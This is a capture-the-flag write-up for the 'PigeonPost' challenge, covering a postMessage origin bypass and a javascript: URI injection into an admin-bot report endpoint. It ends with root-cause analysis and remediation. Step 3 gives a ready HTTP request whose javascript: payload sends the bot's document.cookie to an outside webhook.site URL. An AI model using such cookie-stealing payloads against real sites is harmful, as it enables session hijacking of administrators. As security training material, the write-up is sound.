

### PigeonPost - postMessage Origin Bypass and javascript: URI Cookie Theft

> x Exam (54)


##### Vulnerability Class

> **Cross-Site Scripting via missing `postMessage` origin validation**, compounded by a **`javascript:` URI injection** into the admin bot report mechanism. The preview iframe accepts `postMessage` events from any origin without validation, and when opened as a standalone top-level document rather than as a sandboxed iframe, executes injected HTML in the full application origin context. The report endpoint dispatches submitted URLs to the admin bot without server-side scheme validation, allowing a `javascript:` URI to execute arbitrary JavaScript directly in the bot's authenticated browsing context.

##### Architecture Analysis: The postMessage Bridge

The page source reveals a two-document architecture. The parent inbox page loads a preview iframe pointing to `/preview` with the `sandbox="allow-scripts"` attribute:


```html
<iframe
  id="preview-frame"
  src="/preview"
  sandbox="allow-scripts"
  title="Message preview (sandboxed)"></iframe>
```

When a message is selected, the parent sends the raw HTML body to the iframe via `postMessage` with a wildcard target origin:


```javascript
frame.contentWindow.postMessage({ html: msg.body, subject: msg.subject }, '*');
```

The preview document at `/preview` listens for this message and writes it directly into the DOM via `innerHTML` with no origin check:


```javascript
window.addEventListener('message', e => {
  document.getElementById('out').innerHTML = e.data.html;
  document.getElementById('empty').style.display = 'none';
});
```

The comment in the source code reveals the developer's flawed reasoning explicitly:


```javascript
// Because this iframe is loaded with `sandbox="allow-scripts"`
// by the legit inbox, any script in the rendered HTML runs in an opaque
// origin and cannot touch our cookies.
//
// ...which is exactly why we trust whatever shows up on the message channel.
```

##### The Two Vulnerabilities

**Vulnerability 1: No origin validation on the postMessage listener.**

The developer assumed that because the iframe runs in an opaque origin under `sandbox="allow-scripts"` without `allow-same-origin`, injected scripts cannot access the parent's cookies. This reasoning is correct when the iframe is embedded in the sandbox. However it completely fails to account for the scenario where `/preview` is opened as a **standalone top-level document**, in which case it runs in the full application origin with unrestricted cookie access, and any window holding a reference to it can send a `postMessage` that will be accepted without question.

**Vulnerability 2: No URL scheme validation on the report endpoint.**

The report endpoint dispatches the submitted URL directly to the headless Chromium bot with no server-side validation of the URL scheme, allowing a `javascript:` URI to be dispatched and evaluated in the bot's current authenticated origin context.

##### Confirming the postMessage Sandbox Escape

Opening `/preview` directly as a top-level document and running the following in the DevTools console confirmed execution in the full application origin:


```javascript
window.postMessage({ html: `` }, '*');
```

The alert displayed the full application origin `https://caac15dd-4e8c-4501-a4a5-996900ee6dd5.offsec.m0lecon.it`, confirming the sandbox escape. When embedded as a sandboxed iframe the origin would be `null`, but as a top-level document all sandbox restrictions are lifted entirely.

##### Exploitation

###### Step 1: Confirming Bot Network Access

Submitting `https://webhook.site/1aad56a5-76d1-49e3-8087-2ad59a496316` to the report endpoint produced an incoming GET request from `130.192.5.212` in Torino, Piemonte, Italy, confirming the bot has unrestricted outbound internet access, unlike the isolated bots encountered in the ScratchPad and Guestbook challenges.

###### Step 2: Attempting iframe and data: URI Vectors

Multiple intermediate approaches were attempted and failed due to browser security constraints.

A `data:` URI with `window.open()` was blocked by the popup blocker since `data:` origins are not considered trusted navigating contexts for programmatic window creation without a user gesture.

A `data:` URI with an `<iframe>` loading the application origin was blocked because Chromium refuses to load cross-origin `https://` content inside frames originating from a `data:` URI.

Webhook.site free tier does not support serving custom HTML response bodies, making it unsuitable as an attack page host without a paid account.

###### Step 3: The javascript: URI Solution

Since the bot has outbound internet access and the report endpoint performs no server-side URL scheme validation, the `javascript:` URI vector was submitted directly to `/report` via Burp Suite, bypassing the client-side report form sanitizer entirely:


```http
POST /report HTTP/2
Host: caac15dd-4e8c-4501-a4a5-996900ee6dd5.offsec.m0lecon.it
Content-Type: application/json

{
  "url": "javascript:fetch(`https://webhook.site/1aad56a5-76d1-49e3-8087-2ad59a496316/?c=`+encodeURIComponent(document.cookie))"
}
```

The bot received the `javascript:` URI, evaluated the expression in its current authenticated origin context, read `document.cookie`, and issued a GET request to webhook.site with the admin cookie encoded as a query parameter.

###### Step 4: Recovering the Flag

Webhook.site received an incoming GET request containing the admin session cookie as the `c=` query parameter:

```
flag=offsec{p0stm3ssag3_n0_0r1g1n_i9aYNjS5v4cU3VdS}
```

##### Full Attack Chain Summary

```
Attacker POSTs javascript: URI directly to /report via Burp
        |
        v
Server dispatches URI to Moderator Pidge's headless Chromium bot
        |
        v
Bot evaluates javascript: expression in authenticated origin context
        |
        v
fetch() carries document.cookie to webhook.site as ?c= parameter
        |
        v
Attacker reads incoming webhook request → flag recovered
```

##### Root Cause Analysis

> The challenge presents two independent vulnerabilities that compound each other. The **postMessage origin bypass** arises from the `/preview` document accepting messages from any origin without validating `e.origin`, combined with the architectural oversight that the document can be navigated to directly as a top-level document, escaping all sandbox restrictions that were assumed to make the channel safe. The **javascript: URI injection** arises from the `/report` endpoint dispatching user-supplied URLs to the admin bot without validating that the URL scheme is restricted to `https:` or `http:`. Either vulnerability independently enables cookie theft: the postMessage bypass by hosting an attack page that frames `/preview` and sends it a cookie-stealing payload, and the javascript: URI by executing JavaScript directly in the bot's authenticated context without requiring any stored or reflected injection point at all.

##### Remediation

The `postMessage` listener must validate the origin of incoming messages before processing them:


```javascript
window.addEventListener('message', e => {
  if (e.origin !== 'https://caac15dd-4e8c-4501-a4a5-996900ee6dd5.offsec.m0lecon.it') return;
  document.getElementById('out').innerHTML = DOMPurify.sanitize(e.data.html);
});
```

The report endpoint must validate the URL scheme before dispatching to the bot:


```javascript
const url = new URL(req.body.url);
if (!['https:', 'http:'].includes(url.protocol)) {
  return res.status(400).json({ error: 'Invalid URL scheme.' });
}
bot.visit(url.href);
```

The `innerHTML` sink in the preview document must additionally be replaced with a properly configured `DOMPurify.sanitize()` call to prevent XSS even when valid messages are received from the legitimate parent, providing defense in depth against any future bypass of the origin check.





